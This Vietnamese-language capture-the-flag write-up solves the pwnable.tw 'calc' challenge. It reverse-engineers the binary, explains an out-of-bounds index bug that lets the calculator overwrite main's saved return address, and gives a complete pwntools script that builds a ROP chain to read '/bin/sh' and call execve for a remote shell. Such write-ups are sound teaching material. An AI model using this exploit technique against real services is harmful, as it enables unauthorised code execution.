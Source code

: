# PWNABLE.TW CALC

đầu tiên chúng ta hãy cùng đi reverse chương trình để có thể hiểu chương trình hoạt động như nào

Hàm main không có gì đặc sắc cả cái chung ta quan tâm đó là hàm calc:

![image](https://user-images.githubusercontent.com/93699926/230762886-32422685-786a-436b-9aad-5afdb15cce2e.png)

Chương trình khởi tạo một mảng kiểu int với 101 phần tử và một mảng kiểu char với 1024 phần tử

Chương trình nhảy vô vòng lặp và mỗi lần chạy nó sẽ khởi tạo lại viến v2 thành 0 tất cả 1024 phần tử
và sau đó thì gọi hàm get_expr

![image](https://user-images.githubusercontent.com/93699926/230763052-ec0d202b-b2db-40c8-a607-2eedbcb5a75e.png)

Hàm get_expr này giống như một chiếc filter để kiểm tra tất cả các ký tự chúng ta nhập vô , kiêrm tra từng byte một ,byte by byte

Và nó chỉ cho phép ta nhập các ký tự trong danh sách sau [0 đến 9,+,*,%,/,-]

Và nếu như biến v5 khi trả về = 0 thì chương trình sẽ thoat khỏi vòng loop 

Vậy ta có thể thoát khỏi hàm calc bằng cách nhập duy nhất ký tự "\n"

sau đó chương trình tiếp tục gọi hàm init_pool:

![image](https://user-images.githubusercontent.com/93699926/230763233-a4df0a47-fc0b-4b89-9200-980d4e1380fa.png)

Đọc qua thì ta có thể hiểu được rằng ở mỗi lần chạy thì chương trình sẽ thiết lập 101 phần tử của biến NUMS thành 0 

Giờ đến hàm quan trọng nhất của chương trình đo là hàm parse_expr:

Hàm này rất dài, nên mình sẽ chụp từng phần và giải thích :


![image](https://user-images.githubusercontent.com/93699926/230763333-a7242a82-4ea9-46d8-a770-b73ed1bc4118.png)

chương trình sẽ chạy vòng for loop, kiểm tra tới ký tự nào trong a1=[+,-,%,*,/]

sau đó nó sẽ nó sẽ malloc một biến v8 bằng vế đằng sau các ký tự được liệt kê trên. VD a1=123+3 thì nó sẽ kiểm tra đến hết dấu "+" rồi thì v8="3" sau đó nó sẽ thêm ký tự null vô cuối v8 và dùng hàm strcmp để so sánh v8 với 0x30(hay "0")
nếu v8 =0 thì nó sẽ print ra dòng chữ "prevent division by zero" và không thực hiện tiếp tức là tất cả các phép tính với vế sau =0 đề sẽ không được thực hiện

![image](https://user-images.githubusercontent.com/93699926/230763715-409dc3a9-caf9-4e96-9711-6aa795097e80.png)

Tiếp tục với phần còn lại của cái hàm siêu dài này :

![image](https://user-images.githubusercontent.com/93699926/230763809-52047cb9-0f03-4644-b869-431ba58e6890.png)

![image](https://user-images.githubusercontent.com/93699926/230763829-f89ff168-e7c0-4633-9d99-61ecb6f86013.p

Ở phần tiếp theo của chương trình thì biến v8 sẽ được chuyển từ ký tự sang số nhờ hàm atoi
, ở đây mình đã đặt tên lại biến v2 thành count .nếu như biến v9 >0 thì count sẽ bằng  NUMS++, và NUMS[count+1] =v9
.Phần sau chỉ đơn giản là thực hiện kiểm tra các biểu thức cộng nhân chia và sau dó nó sẽ gọi hàm eval để tính toán 

![image](https://user-images.githubusercontent.com/93699926/230764530-1c5c7748-2fc2-43d8-b045-9ee0f1758455.png)

như ta có thể thấy chương trình sẽ thực hiện các biểu thức +,-,*,/ và sau đó nó sẽ lưu kết quả vô NUMSƠ[NUMS-1] hay NUMS[count]

Test qua chương trình ta thấy như sau

![image](https://user-images.githubusercontent.com/93699926/230764904-39392281-9c4c-403d-a4c5-d64bc575b4bd.png)

sau khi ta nhập sai nư trên thì ta có thể thấy chương trình không báo lỗi mà lại in ra giá trị tại địa chỉ NUMS[10] = 0 như ta thấy thử tiếp thì ta thấy rằng có thể thay đối giá trị tại địa chỉ nào đó bằng cú pháp nhưu sau:

![image](https://user-images.githubusercontent.com/93699926/230765827-ff2e7880-6913-4378-ad5e-a0738444d8f3.png)

dây là link bài viết mà mình đã tham khảo khi làm bài https://drx.home.blog/2019/04/07/pwnable-tw-calc/#more-705
Bạn có thể xem để có được sự giải thích rõ hơn ,vậy với bug trong tay thì mình sẽ đi khai thác chương trình

# Ý tưởng
mình sẽ nhắm tơi với thay đổi return address của hàm main với các gadget của mình và thực thi hàm execve
.Các gadget mà mình cần như sau 

```

rw_section = 0x80eda00 ; đây là địa chỉ mình sẽ ghi string "/bin/sh", các bạn có thể tự kiểm tra trong gdb , vì pie không bật nên ta có được ngây địa chỉ 
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

```

giờ ta sẽ đi tính khoảng cách từ NUMS cho đến saved eip của main , mình sẽ đặt lệnh b* ở câu lệnh leave của hàm main và ở calc+20 đê có thể xem được địa chỉ NUMS (ta biết nó ở địa chỉ Esp+0x18)

![image](https://user-images.githubusercontent.com/93699926/230766186-5f72255a-3bcb-45fb-86ad-a0f51b79d8d8.png)

![image](https://user-images.githubusercontent.com/93699926/230766209-ed140794-c17a-4ba4-8ddb-b6bba83edc3c.png)

Ta có 0xffffcca8 là địa chỉ của NUMS và 0xffffd26c là địa chỉ của saved eip của main
. (0xffffd26c-0xffffcca8)/4=369 vậy để có thể ghi được vào saved eip của main ta cần thực hiện cú pháp là +368+<gía trị của gadget > Lưu ý ta cần +368 vì khi đọc hàm parse_expr sẽ lưu kết quả vô NUMS[NUMS-1]+=NUMS[NUMS] 
.Vậy nếu ta nhập +368+<gía trị của gadget > thì saved eip sẽ là giá trị của gadget ta ghi và giá trị được in ra màn hình sẽ là giá trị của NUMS[368]+<giá trị của gadget>

Vì khi ta viết thực hiện các toán tử những địa chỉ phía sau sẽ bị thay đổi bởi địa chỉ phía trước nên ta sẽ viết payload ngược lại từ địa chỉ eip+địa chỉ <gadget cuối cùng> cho đến eip + địa chỉ <gadgget đầu tiên> 

Và một điều nữa chúng ta không thể sử dụng giá trị 0 để ghi vào địa chỉ vì như mình giải thích ở trên chương trình không cho phép ta nhập vô vế sau =0 và nó sẽ báo lõi "prevent divíion by zero"
vậy ta sẽ làm điều này như sau :

+) TH1 nếu NUMS[NUMS-1]= đúng với giá trị gadget ta ghi vô  trước đó thì ta chỉ cần ghi thêm 1 lần nữa đứng với địa chỉ đó và với giá trị của gadget đó nhưng lần này là với toán tử trừ 
VD : +368+100=> kết quả in ra là 100 thì ta ghi thêm 1 lần nữa là +368-100 thì kết quả in ra sẽ là 0 vậy là ta thành công thay đổi ký địa chỉ phía trước thành NULL

![image](https://user-images.githubusercontent.com/93699926/230766848-cf1e9ea6-e647-449b-888d-d04fdb76d436.png)

còn nếu in ra kết quả khác với gadget ta ghi trước đó thì tức là địa chỉ đó trước đó đã có một giá trị khác , giá trị này có thể âm hoặc dương 
+) nếu đó là đại chỉ dương thì ta cần + thêm làm sao để nó trở thành 0x100000000(4 byte 0) 
+) còn nếu nó là âm thì ta cần biết là giá trị âm khi được biểu diễn trong máy tính sẽlà một số rất lớn vd 1234=0x4d2 còn nếu -1234=0xfffffb2e
nên ta nếu là só âm ta sẽ dùng struct trong python để biến đổi và thực hiện phép tính

```
from pwn import *
import struct
exe= context.binary=ELF("./calc",checksec = False)

#p=process(exe.path)
p=remote("chall.pwnable.tw", 10100)
def GDB():
	gdb.attach(p,gdbscript=
		'''
		
		b*0x080494a5
		c
		'''
		)
	input()

def getnum(num,need):
	if num<0:
		num=int.from_bytes(struct.pack("<i",num),"little")
	num=struct.unpack("<i",p32(0x100000000-num-need))
	num=str(num)
	if "-" not in num:
		num="+"+num 
	return num

exe_base=0x8048000
##### gadgets########################
eip = 368
rw_section = 0x80eda00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	# read(0, rw_section, 0x200)
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
	pop_edx, 0,
	int_80_ret
	]
GDB()
p.recvline()
for i in range(len(payload_list)-1, -1, -1):
	# We don't want program print out anything unrelated to number
	if payload_list[i]==0:
		continue

	# If we have 4-byte null before current inputing number
	if payload_list[i-1]==0:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		recv = int(p.recvline()[:-1])
		print(recv, payload_list[i])
		
		# If number is equal, just simply subtract
		if recv==payload_list[i]:
			payload = f'+{eip+i}-{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		# If number is not equal, means something added
		# Make previous number to opposite of number want to add of current number 
		else:
			t = getnum(recv, payload_list[i])
			payload = f'+{eip+i}{t}'.encode()
			p.sendline(payload)
			p.recvline()
			payload = f'+{eip+i}+{payload_list[i]}'.encode()
			p.sendline(payload)
			p.recvline()
		
	else:
		payload = f'+{eip+i}+{payload_list[i]}'.encode()
		p.sendline(payload)
		p.recvline()
p.sendline()
p.sendline(b"/bin/sh\x00")
p.interactive()
```
# flag

![image](https://user-images.githubusercontent.com/93699926/230767196-ab12017b-0d41-48f5-bbb8-2f815a2b9507.png)


